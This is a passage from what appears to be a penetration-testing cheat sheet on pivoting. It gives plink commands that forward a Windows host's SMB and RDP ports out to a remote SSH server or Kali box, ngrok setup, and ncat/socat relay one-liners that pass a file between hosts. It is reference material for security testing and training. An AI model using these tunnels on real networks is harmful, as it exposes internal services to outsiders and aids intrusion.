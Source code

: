 ```powershell
```


## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

## ngrok

```powershell
# get the binary
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip 

# log into the service
./ngrok authtoken 3U[REDACTED_TOKEN]Hm

# deploy a port forwarding for 4433
./ngrok http 4433
./ngrok tcp 4433
```


## Basic Pivoting Types

| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| Listen - Listen   | Exposed asset, may not want to connect out. |
| Listen - Connect  | Normal redirect.                            |
| Connect - Connect | Can’t bind, so connect to bridge two hosts  |

### Listen - Listen

| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| ncat              | `ncat -v -l -p 8080 -c "ncat -v -l -p 9090"`|
| socat             | `socat -v tcp-listen:8080 tcp-listen:9090`  |
| remote host 1     | `ncat localhost 8080 < file`                |
| remote host 2     | `ncat localhost 9090 > newfile`             |
